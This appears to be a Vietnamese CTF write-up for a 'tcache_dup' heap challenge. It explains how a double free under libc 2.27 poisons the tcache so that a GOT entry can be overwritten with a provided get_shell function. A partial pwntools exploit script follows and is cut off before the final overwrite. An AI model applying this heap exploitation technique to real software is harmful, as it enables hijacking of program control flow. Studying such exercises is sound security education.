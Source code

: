 ```





- ý tưởng : vì bài này PIE tắt và được cho hàm get_shell luôn nên ý tưởng là sẽ overwrite get_shell bằng cái gì đó 

- ta thấy có lỗi uaf và double free luôn nhma chưa tận dụng dc thằng uaf , mình sẽ làm theo hướng double_free

- bài này được cho file libc.2.27 và không check double free , nên ý tưởng là như sau :

malloc() -> free() -> free() -> malloc()  này là để ghi got vào fw -> malloc() này dùng để lấy thằng đầu ra -> thằng đầu lúc này sẽ là địa chỉ got nên ta sẽ ghi đè nó bằng get_shell()


- lưu ý là size này phải nằm trong tcache :v: 

script 
```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./tcache_dup_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe
p = process()
gdb.attach(p,gdbscript='''
            b*0x00000000004009ba
            b*0x00000000004009c7
            b*0x0000000000400a1f
            b*0x0000000000400a71
            b*0x0000000000400a95

           ''')

p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'Size: ',b'200')
p.sendlineafter(b'Data: ',b'aaaa')

p.sendlineafter(b'> ',b'2')
p.sendlineafter(b'idx: ',b'0')
p.sendlineafter(b'> ',b'2')
p.sendlineafter(b'idx: ',b'0')

input()
p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'Size: ',b'200')
p.sendlineafter(b'Data: ',p64(exe.got.read))
